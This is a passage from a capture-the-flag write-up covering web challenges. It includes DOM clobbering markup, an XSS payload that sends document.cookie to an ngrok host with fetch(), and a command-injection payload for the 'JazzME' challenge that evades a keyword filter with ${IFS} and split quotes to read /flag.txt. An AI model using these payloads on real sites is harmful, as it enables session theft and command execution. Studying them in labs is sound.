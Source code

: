 In addition, we need to declare another variable on window element which is `debug`. In the **name** field, we will provide our DOM Clobbering code: 
```html
<div id=debug></div><a id=facecard><a id=facecard name=top href='https://de31-101-50-78-56.ngrok-free.app'>
```

And XSS in the description: 
```html
<img src=x onerror='fetch("https://de31-101-50-78-56.ngrok-free.app/" + document.cookie)' />
```

When you submit the details and revisit the resolution page, you will get the flag on your ngrok terminal. 

![image](https://github.com/hash3liZer/khatta/assets/29171692/5e230929-31fa-4c09-9cc1-bfe2dba9c653)

# Finals
### JazzME

The challenge had the following description:

> Taqi is a big fan of Jazz. I made him try my new jazz application.

And beleive me Taqi (theflash2k) is only the fan of Jazz Office. 

The app is rather simple, if i enter my name, i get it returned in plain. Lets try different payloads. And there's a hit at command injection: 

![image](https://github.com/hash3liZer/khatta/assets/29171692/99cfcbfa-944f-41e2-84dd-31cdf8673ba4)

Seems we are inside a string and on top of that we are `root`. Lets read the flag which is prolly sitting in the same directory or at `/flag.txt`. But it seems there's a blacklist filtering: 

![image](https://github.com/hash3liZer/khatta/assets/29171692/16526814-4af4-42d6-bedc-8dc4daea661c)

So, lets start putting our command one by one, so we can see what's allowed and what's not with the website response. After testing command one by one, the filtered keywords seems to be are **space**, **flag** and **txt** extension. Since, spaces are not allowed, we can also use `${IFS}` in place of that. 

Thats a good start. But we also know that in linux we can provide empty strings within a word. Like `fla""g` would be a valid word. Combining these 2 condition, our final payload would look like: 
```python
$(cat${IFS}/fla""g.t""xt)
```

And we enter it and we get the flag: 
![image](https://github.com/hash3liZer/khatta/assets/29171692/ee099921-82c2-4a08-a59e-57f688ab9638)

### Lama

The challenge had the following description: 

> Taqi made a basic web chall, no way you can do this one.
